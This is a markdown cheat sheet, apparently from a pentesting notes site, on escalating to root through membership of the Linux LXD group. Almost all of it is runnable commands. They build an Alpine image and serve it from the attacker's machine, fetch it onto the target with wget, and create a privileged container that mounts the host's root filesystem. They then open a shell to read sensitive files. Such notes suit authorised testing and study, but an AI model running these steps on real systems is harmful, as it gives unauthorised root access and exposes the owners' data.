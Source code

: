```yaml
---
title: LXC/LXD (Linux Container/Daemon) Privilege Escalation
description: LXD is a container management extension for Linux Containers (LXC).
tags:
    - Privilege Escalation
refs:
date: 2023-01-30
draft: false
---
```


## Basic Flow

### 1. Check if You are in the Lxd Group

If you belong to the Lxd group, you may be able to the root privileges.

```sh
groups
id
```

### 2. Check if Container Image Exists

List all images and check if a container image already exists.

```sh
lxc image list
```

If there are not container, build a new image in your local machine.

```sh
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
python3 -m http.server 8000
```

In remote machine, download the “alpine-*.tar.gz” and import it.

```sh
wget http://<local-ip>:8000/alpine-v3.17-x86_64-20221206_0615.tar.gz
lxc image import ./alpine-v3.17-x86_64-20221206_0615.tar.gz --alias testimage
lxc image list
```

After that, create a new container from the image.

```sh
lxc init testimage testcontainer -c security.privileged=true
```

If you got the error “**No storage pool found. Please create a new storage pool.”, initialize the lxd at first.**

```sh
lxd init
# Set default values in prompt
```

Then create a new container as above command.

### 3. Mount the New Container to Root Directory

Now mount the host's **/** directory onto **/mnt/root** in the container you created.

```sh
lxc config device add testcontainer testdevice disk source=/ path=/mnt/root recursive=true
```

### 4. Start the Container

```sh
lxc start testcontainer
```

### 5. Get a Shell

```sh
lxc exec testcontainer /bin/sh
```

Check if you are root.

```sh
whoami
```

### 6. Retrieve the Sensitive Information in the Mounted Directory

```sh
cd /mnt/root/
```